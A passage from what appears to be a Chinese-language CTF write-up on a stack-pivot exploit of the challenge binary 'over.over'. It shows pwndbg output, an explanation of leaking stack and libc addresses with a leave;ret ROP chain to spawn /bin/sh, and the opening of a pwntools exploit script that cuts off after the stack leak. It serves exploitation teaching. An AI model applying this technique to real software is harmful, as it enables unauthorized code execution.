 ```C
 RIP  0x4006b9 ◂— call   0x400530
─────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────
 ► 0x4006b9    call   puts@plt <0x400530>
        s: 0x7ffceaf11160 ◂— 0x3030303030303030 ('00000000')

   0x4006be    leave
   0x4006bf    ret

   0x4006c0    push   rbp
   0x4006c1    mov    rbp, rsp
   0x4006c4    sub    rsp, 0x10
   0x4006c8    mov    dword ptr [rbp - 4], edi
   0x4006cb    mov    qword ptr [rbp - 0x10], rsi
   0x4006cf    mov    rax, qword ptr [rip + 0x20098a] <0x601060>
   0x4006d6    mov    ecx, 0
   0x4006db    mov    edx, 2
─────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────
00:0000│ rax rdi rsi rsp  0x7ffceaf11160 ◂— 0x3030303030303030 ('00000000')
... ↓
───────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────
 ► f 0           4006b9
   f 1           400715
   f 2     7ff756de02b1 __libc_start_main+241
Breakpoint *0x4006B9
pwndbg> stack 15
00:0000│ rax rdi rsi rsp  0x7ffceaf11160 ◂— 0x3030303030303030 ('00000000')
... ↓
0a:0050│ rbp              0x7ffceaf111b0 —▸ 0x7ffceaf111d0 —▸ 0x400730 ◂— push   r15
0b:0058│                  0x7ffceaf111b8 —▸ 0x400715 ◂— test   eax, eax
0c:0060│                  0x7ffceaf111c0 —▸ 0x7ffceaf112b8 —▸ 0x7ffceaf133db ◂— './over.over'
0d:0068│                  0x7ffceaf111c8 ◂— 0x100000000
0e:0070│                  0x7ffceaf111d0 —▸ 0x400730 ◂— push   r15
pwndbg> distance 0x7ffceaf111d0 0x7ffceaf11160
0x7ffceaf111d0->0x7ffceaf11160 is -0x70 bytes (-0xe words)
```

leak 出栈地址后, 我们就可以通过控制 rbp 为栈上的地址(如 0x7ffceaf11160), ret addr 为 leave ret 的地址来实现控制程序流程了, 比如我们可以在 0x7ffceaf11160 + 0x8 填上 leak libc 的 rop chain 并控制其返回到 sub\_400676 函数来 leak libc。 
	 
然后在下一次利用时就可以通过 rop 执行 system("/bin/sh") 或 execve("/bin/sh", 0, 0)来 get shell 了, 这道题目因为输入的长度足够, 我们可以布置调用 execve("/bin/sh", 0, 0) 的利用链, 这种方法更稳妥(system("/bin/sh") 可能会因为 env 被破坏而失效), 不过由于利用过程中栈的结构会发生变化, 所以一些关键的偏移还需要通过调试来确定

#### exp
```python
from pwn import *
context.binary = "./over.over"

def DEBUG(cmd):
    raw_input("DEBUG: ")
    gdb.attach(io, cmd)

io = process("./over.over")
elf = ELF("./over.over")
libc = elf.libc

io.sendafter(">", 'a' * 80)
stack = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - 0x70
success("stack -> {:#x}".format(stack))


```